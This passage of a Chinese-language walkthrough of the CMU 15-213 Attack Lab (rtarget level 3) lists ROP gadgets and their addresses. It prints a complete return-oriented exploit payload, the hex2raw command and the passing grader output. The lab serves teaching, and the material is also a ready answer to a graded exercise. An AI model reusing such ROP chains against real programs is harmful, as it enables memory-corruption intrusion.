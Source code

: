       地址为`401a11+2=401a13`。

综上，找到了`%eax`->`4019dd`->`%edx`->`401a34`->`%ecx`->`401a13`->`%esi`。

---

将得到的各个`gadget`进行总结：

```assembly
popq    %rax              # 4019ab
                          # offset
movl    %eax,%edx         # 4019dd
movl    %edx,%ecx         # 401a34
movl    %ecx,%esi         # 401a13
movq    %rsp,%rax         # 401a06
movq    %rax,%rdi         # 4019a2
lea    (%rdi,%rsi,1),%rax # 4019d6
movq    %rax,%rdi         # 4019a2
                          # address of touch3
                          # string of cookie
```

其中偏移量从`%rsp`读入开始计算，为`4*8=32=0x20`，`touch3`的地址为`4018fa`，`cookie`值对应的字符串的十六进制表示为`35 39 62 39 39 37 66 61 00`。

---

编辑用于攻击的字符串文件`exploit.txt`（**注意注释周围的空格**）：

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* popq    %rax */
20 00 00 00 00 00 00 00 /* offset */
dd 19 40 00 00 00 00 00 /* movl    %eax,%edx */
34 1a 40 00 00 00 00 00 /* movl    %edx,%ecx */
13 1a 40 00 00 00 00 00 /* movl    %ecx,%esi */
06 1a 40 00 00 00 00 00 /* movq    %rsp,%rax */
a2 19 40 00 00 00 00 00 /* movq    %rax,%rdi */
d6 19 40 00 00 00 00 00 /* lea    (%rdi,%rsi,1),%rax */
a2 19 40 00 00 00 00 00 /* movq    %rax,%rdi */
fa 18 40 00 00 00 00 00 /* address of touch3 */
35 39 62 39 39 37 66 61 00 /* string of cookie */
```

再将保存的`exploit.txt`输入到`rtarget`：

```shell
cat exploit.txt | ./hex2raw | ./rtarget -q
```

得到输出如下：

```shell
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 20 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```
